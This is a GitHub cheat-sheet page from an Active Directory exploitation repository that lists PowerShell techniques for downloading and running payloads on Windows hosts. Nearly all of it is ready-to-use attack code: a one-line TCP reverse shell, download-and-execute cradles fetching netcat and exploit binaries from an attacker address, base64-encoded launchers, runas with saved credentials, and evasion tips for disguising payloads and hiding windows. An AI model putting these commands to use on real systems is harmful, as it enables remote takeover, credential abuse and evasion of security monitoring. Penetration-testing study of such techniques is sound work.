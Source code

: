 ## UPLOAD DOWNLOAD AND EXECUTE SOME STUFF

#### IN-MEMORY & DISK-BASED

- In-Memory
    - Net.WebClient DownloadString Method
    - Net.WebClient DownloadData Method
    - Net.WebClient OpenRead method
    - .NET [Net.HttpWebRequest] class
    - Word.Application COM Object
    - Excel.Application COM Object
    - InternetExplorer.Application COM Object
    - MsXml2.ServerXmlHttp Com Object
    - Certutil.exe w/ -ping argument

- Disk-Based
    - Net.WebClient DownloadFile method
    - BITSAdmin.exe
    - Certutil.exe w/ -urlcache argument

#### PS AS SYSTEM
```powershell
# IF NO PSEXEC, DROP SYSINTERNALS TOOLS
Start-Process -FilePath cmd.exe -Verb Runas -ArgumentList '/k C:\Users\bob\Desktop\PsExec.exe -i -s powershell.exe'
```

#### ONE LINE REVERSE SHELL
```powershell
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### UPLOADER
```powershell
powershell -c Invoke-WebRequest -Uri "http://10.10.10.10/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
powershell -c Invoke-WebRequest -Uri "http://10.10.10.10/nc.exe" -OutFile "C:\\windows\\temp\\nc.exe"
powershell wget "http://10.10.10.10/nc.exe" -outfile "nc.exe"
IEX(New-Object Net WebClient).DownloadFile('http://10.10.10.10/ms15-51-64.exe','ms15-51-64.exe')
```
#### EXECUTOR
```powershell
powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe 10.10.10.10 443
```

#### MULTI LINE DOWNLOAD EXEC
```powershell
$downloader = New-Object System.Net.WebClient
$payload = "http://10.10.10.10/scan.ps1"
$command = $downloader.DownloadString($payload)
Invoke-Expression $command
```

#### DOWNLOAD EXEC
```powershell
powershell -c IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/revshell_FUD.ps1')
#
iex (iwr http://attacker/Invoke-Script.ps1 -UseBasicParsing)
```

#### COMMAND ENCODER
```bash
# BUILD YOUR COMMAND IN YOUR SYSTEM
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/Invoke-PowerShellTcp_8443.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
# BUILD YOUR COMMAND WITH POWERSHELL
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/Invoke-PowerShellTcp_8443.ps1')"))
```
```powershell
# PASS IT WITH ENCODED
powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEAMAAuADEAMAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcABfADgANAA0ADMALgBwAHMAMQAnACkA
```
#### CMDKEY /LIST
```powershell
runas /user:ACCESS\Administrator /savecred "Powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEAMAAuADEAMAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcABfADgANAA0ADMALgBwAHMAMQAnACkA"
```
#### EXEC WITH PASSWORD
```powershell
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator',$passwd)
​Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.10.10/Invoke-PowerShellTcp_8443.ps1')" -Credential $creds
```

#### EVASION TIP
- Configure your hosting server with valide SSL certificate
- Basic file extension heuristics evasion
     ```powershell
    # EXECUTED AS ps1 !!!
    IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/Logo.gif')
    ```
- Obfuscation
- Base 64 encoded command
- Net.WebClient used with valide user-agent (recon smartphone and local computer)
    ```powershell
    $downloader = New-Object System.Net.WebClient
    $downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
    $payload = "http://10.10.10.10/script.ps1"
    $command = $downloader.DownloadString($payload)
    iex $command
    ```
- -Window Hidden end-user
    ```powershell
    powershell.exe –ExecutionPolicy bypass –Window hidden ...
    ```

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)
